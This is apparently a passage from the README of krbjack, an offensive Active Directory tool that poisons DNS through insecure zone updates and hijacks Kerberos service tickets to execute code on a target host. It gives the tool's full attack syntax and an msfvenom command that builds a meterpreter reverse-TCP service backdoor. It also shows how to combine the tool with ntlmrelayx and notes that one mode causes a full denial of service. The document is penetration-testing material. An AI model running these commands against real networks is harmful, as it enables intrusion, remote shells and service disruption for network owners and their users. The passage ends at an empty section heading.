 ```sudo krbjack { check | run --target-name <targetNBTName> --target-ip <targetIP> --ports <port1,port2,port3,...> --executable <executable.exe> [--no-poison] } --domain <domainName> --dc-ip <domainControlerIpAddress> [--help]```
- `--executable <executable.exe>` : An optional path to an executable on your attacker's machine. This executable will be uploaded and executed psexec-style on your target if the attack succeeds. Example : `/home/almandin/metx64revtcp.exe`.

    The executable you provide can be either a "standard" executable, or a windows service executable (better). If it is a "standard" executable, windows will kill it when running after a few seconds if it has not ended already, because as it is run as a service, Windows expects it to do proper signaling (behave as a true service). Though it still works, you might want to migrate quickly your meterpreter when the session is established.

    If you use a windows service executable, you're good to go, nothing to add here. You can generate such executables with msfvenom with the `exe-service` format:

        msfvenom -f exe-service -o backdoor.exe -p windows/x64/meterpreter/reverse_tcp LHOST=X LPORT=Y
        
- `--no-poison` : Additionnal flag that can  be used to set all the mess in place but prevent DNS poisoning from being done. Just in case you managed to poison DNS yourself or if you found another way to point clients to you instead of the legitimate service.

## Alternative use cases

You can use krbjack to only poison dns records, or in combination to ntlmrelayx as well. If you do not specify any executable, no remote code execution will be performed, only dns poisonning will be performed. You can use this and specify ports to forward to catch traffic between your target and any system that tries to reach it by DNS name.

If you do not provide any ports, no tcp forwarding will be performed. This enables to use ntlmrelayx with an unsecure dns update abuse. Example : `krbjack run --target-name winserv --domain windomain.local --dc-ip 10.0.0.1`. This will start dns poisonning. At the same time you can start ntlmrelayx : `ntlmrelayx.py -t 10.0.0.42 -smb2support` to try to execute code to the 10.0.0.42 machine. Note that without any tcp forwarding enabled, a full denial of service is performed...

## What are the requirements for this to work ?

First you need to check if the domain you are testing is vulnerable to the main misconfiguration : `ZONE_UPDATE_UNSECURE`. For this you can use external tools such as PingCastle, or let Krbjack do it with the addition of the `--check` flag on the command line.

At the moment this tool only works for systems that do not require SMB Signing. This is a current limitation as the exploited service is SMB for the time being. It means that you cannot target domain controllers most of the time as they have been requiring SMB signing by default for a long time.

## What are the risks of using this tool ?

Just like any other man in the middle attack, you will be receiving connections from any client requesting an access to any service of your target. This means that it can be CPU intensive if the targetted system is highly used.

Moreover, this tool performs live packet inspection on fully-connected TCP streams. Clients DO connect to you before being redirected to the legitimate service. Because of how Kerberos works, it will block some specific connections from behaving correctly as service tickets will be used on the clients' behalf, having the effect to be "consumed" (kerberos tickets cannot be replayed). It means that this tool will make network connection a bit unreliable for every new connection with an interesting AP_REQ in it (AP_REQ for SMB services to our target). HOWEVER, a whitelist is in place to prevent complete blocking of connections. If a client comes several times, only the first AP_REQ will be hijacked. Either it was successful and you pwned your target, or it was not and the client is added to the whitelist to prevent it from being checked again and blocked multiple times. Moreover, other services will still be served and be working correctly thanks to proper forwarding "à la" ssh port forwarding, thoug it might induce lag and delays because of network packets processing on the attacker machine.

## How does it works ?
```
